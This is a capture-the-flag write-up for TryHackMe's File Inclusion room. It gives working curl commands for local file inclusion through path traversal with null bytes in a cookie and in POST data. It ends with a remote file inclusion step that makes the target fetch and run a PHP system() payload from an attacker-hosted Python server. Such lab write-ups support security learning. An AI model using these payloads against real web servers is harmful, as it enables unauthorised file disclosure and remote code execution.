 #+TITLE: File Inclusion (TryHackMe)
#+AUTHOR: Bryan Rinders
#+DATE: <2023-01-28 Sat>
#+OPTIONS: num:nil
#+PROPERTY: header-args:sh :eval never-export

* Intro
{{{brdate}}} This is a write up for the Challenges part of the
TryHackMe room [[https://tryhackme.com/room/fileinc][File Inclusion]].

* Challenges
** Flag 1
On the right hand side of Firefox open the =menu > Web Developer >
Inspector=. In the html source code find the form tag and change the
method from =GET= to =POST=. Then on the actual web page fill =/etc/flag1= in
in the form and press the include button. This should reveal the flag.

** Flag 2
From the hint it is clear that we have to edit the cookie to find the
flag. To inspect the cookie run:

#+begin_src sh
curl -v http://10.10.124.167/challenges/chall2.php
#+end_src

and find the cookie among the header of the output. It has the value
=Cookie: THM=Guest=. The obvious thing is to try and change the value
=Admin=:

#+begin_src sh
  curl -H 'Cookie: THM=Admin' http://10.10.124.167/challenges/chall2.php -o flag2.txt
#+end_src

which reveals the admin page. Since there is not input form on this
page and it is a LFI room the next thing to try is to change the value
of the cookie to the file path to the flag. After a few tries the
correct value was found:

#+begin_src sh
  curl -H 'Cookie: THM=../../../../etc/flag2%00' http://10.10.124.167/challenges/chall2.php -o flag2.txt
#+end_src

Locate the flag at the end of the file =flag2.txt=.

** Flag 3
The url input is filtered, everything that is not a-z is filtered
out. To get around this change the method from get to =GET= to =POST=
and set the data to be posted to =/etc/flag3%00=. The =%00= is
necessary to prevent the =.php= from being added at the end as
explained previously in the room.

#+begin_src sh
  curl -v http://ip/challenges/chall3.php -X  POST -d 'file=/etc/flag3%00' -o flag3.txt
#+end_src

Locate the flag at the end of the file =flag3.txt=.

** Playground
Since this is a RFI exercise we first need to create a =.php= file
that will execute the command we want, =hostname=.

#+begin_src sh
  echo "<?PHP echo system('hostname') ?>" > rfi.php
#+end_src

Next we need a simple server that will host our file. The simplest way
to do this is with python.

#+begin_src sh
  python -m http.server &
#+end_src

And finally add the file as a parameter in the url to get the hostname:

#+begin_src sh
  curl http://10.10.124.167/playground.php?file=http://10.10.95.70:8000/rfi.php
#+end_src

Note: the IP of the remote file is the IP of the attackbox and for the
port number see the output of the python command. The port number
defaults to 8000 but can be different.
